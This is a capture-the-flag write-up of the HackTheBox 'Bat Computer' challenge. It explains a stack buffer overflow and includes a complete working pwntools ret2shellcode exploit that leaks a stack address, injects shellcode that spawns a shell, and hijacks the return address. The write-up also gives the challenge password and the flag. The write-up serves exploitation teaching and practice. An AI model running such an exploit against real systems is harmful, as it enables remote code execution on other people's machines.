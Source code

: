 # Bat Computer
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0455e35d-ab94-4c1b-a1df-9653ca642396)


## Lessons Learned:
1. Buffer Overflow.
2. Implement ret2shellcode concept.

## DESCRIPTION:
It's your time to save the world!

## STEPS:
1. First, unzip the `.zip` file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209466124-165c91d7-782c-43fe-95f3-f1c4d5b5b6df.png)


2. Next, check the file type.

> RESULT - 64 bit, stripped

![image](https://user-images.githubusercontent.com/70703371/209466133-9ea11e4c-167c-4750-b406-ca376c95304b.png)


3. Since it's a binary file, check the file's protection.

> RESULT - No Canary Found (means we can do bufferoverflow), NX disabled (means we can inject shellcode)

![image](https://user-images.githubusercontent.com/70703371/209466161-d860d603-e2a9-48d0-a588-ee38d583ad16.png)


4. Let's run chmod first to make the executable then run the file in gdb.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209466201-78001337-1429-44e0-90c8-93364aff7f8d.png)


5. Let's choose to track joker first.

![image](https://user-images.githubusercontent.com/70703371/209466212-8febfab0-ab55-4c1d-a3fc-a1b845c263a5.png)


6. Now let's chase him.

![image](https://user-images.githubusercontent.com/70703371/209466227-ab9face8-c56f-4af1-a53a-739bdf206574.png)


![image](https://user-images.githubusercontent.com/70703371/209466238-3a283a09-0eee-4510-840a-cdb19c4de183.png)


7. Let's decompile the file in ghidra.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209466257-86061308-c0aa-4a0d-98dc-26d65b4c0a6e.png)


8. Since the binary stripped, hence it's harder for us identify the function.
9. Anyway i think i found the `main()` function.

![image](https://user-images.githubusercontent.com/70703371/209466274-44f2c43b-1e89-4460-94e5-48b2c77dbd77.png)


10. We found the password here, but i don't think the program will give us a flag when we entered the correct pass.

![image](https://user-images.githubusercontent.com/70703371/209466369-2685fcf5-5bef-462f-83b2-e3c13f0f3cae.png)


12. The vuln here is the `auStack84` only has 76 size of buffers but the binary read 137. Hence we can utilize it for bufferoverflow.. 

![image](https://user-images.githubusercontent.com/70703371/209514203-72e514f3-fc0b-449d-8c34-df461ffec906.png)


13. The attack we shall use to get the flag is `inject a shellcode`.
14. So when the binary prompts us the navigation, we inject the shellcode there, so the shellcode will stored at the stack location which we have the address of. So then we need to overwrite the return address (the instruction pointer), overwrite that with the address of the stack where we place our shell code.
15. In short, since the `auStack84` location will change everytime we execute the binary, so we need to extract the address of it, then we need to enter the password and enter the shellcode. To control the return address we need to overflow the buffer.
16.  Now let's run the binary in gdb.

> RESULT - CHOOSE OPTION 2 - ENTER THE PASSWORD (b4tp@$$w0rd!)

![image](https://user-images.githubusercontent.com/70703371/209515683-69da2386-8b87-4d88-acab-912037ea9c59.png)


17. Enter cyclic 1024 pattern.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209516091-384d2679-2871-4896-bcd3-25eb2d8caddc.png)


18. The program didn't crash, because it will crash until we hit return, remember that we are in a while loop.

![image](https://user-images.githubusercontent.com/70703371/209516369-f8855662-9a57-4a91-820e-c15e469632da.png)


19. Let's make another cyclic pattern, but this time 100.
20. Run the binary again in gdb.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209516507-c0ab0615-b327-4543-9c69-747707710a61.png)


21. This time enter random number.

> RESULT - SEGMENTATION FAULT

![image](https://user-images.githubusercontent.com/70703371/209516541-6cef29de-deba-466a-a618-b4af96d1fa09.png)


22. Now take 4 bytes from RSP to look the correct bytes to overflow the buffer.

> RESULT - 84 BYTES

![image](https://user-images.githubusercontent.com/70703371/209516745-eaee73ed-a9f0-41d8-a3bd-8575482d8c64.png)


23. Means we need to write 84 bytes, then the return address (the location of joker), enter the password, enter the shellcode.
24. Now for the exploit script, to extract the stack offset, i used `pwntools` to make this regex.

```py
extractedStack_addr = int(re.search(r"(0x[\w\d]+)", sh.recvlineS()).group(0), 16)
```

25. Now for the shellcode, we can utilize the `shellcraft`.
26. First, we need to pop registers at the beginning se we have room to inject shellcode.
27. For the padding value , we can use this formula:

```py
padding = asm('nop') * (paddingBytes - len(shellcode)) 
```

28. So here is our final script:

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)

exe = './batcomputer'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

## EXPLOITATION

paddingBytes = 84 #EIP/RIP offset
sh = start()

sh.sendlineafter('>', '1')
extractedStack_addr = int(re.search(r"(0x[\w\d]+)", sh.recvlineS()).group(0), 16)
info("extractedStack_addr (joker's offset): %#x", extractedStack_addr)

shellcode = asm(shellcraft.popad()) 
shellcode += asm(shellcraft.sh())
padding = asm('nop') * (paddingBytes - len(shellcode)) 

payload = flat([
    padding,
    shellcode,
    extractedStack_addr
])

sh.sendlineafter(b'>', b'2') 
sh.sendlineafter(b'Enter the password:', b'b4tp@$$w0rd!') 
sh.sendlineafter(b'Enter the navigation commands:', payload) 
sh.sendlineafter(b'>', b'130') # to trigger return 
sh.recvuntil("Too bad, now who's gonna save Gotham? Alfred?\n")

sh.interactive()

```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/209521025-4a04b417-cbdd-4d26-be13-5ab04c9a6e78.png)


![image](https://user-images.githubusercontent.com/70703371/209521063-df20c595-fb57-44af-b01a-0296b8ca3154.png)


![image](https://user-images.githubusercontent.com/70703371/209521083-f75e7023-e6e4-4e1e-8668-699835443529.png)


![image](https://user-images.githubusercontent.com/70703371/209521119-0b3ce4e4-6532-4f08-bd7e-694a3420f297.png)


![image](https://user-images.githubusercontent.com/70703371/209521140-428fae0e-3176-4fda-baa8-6f95c799f629.png)


29. Got the flag!

## FLAG

```
HTB{l0v3_y0uR_sh3llf_U_s4v3d_th3_w0rld!}
```
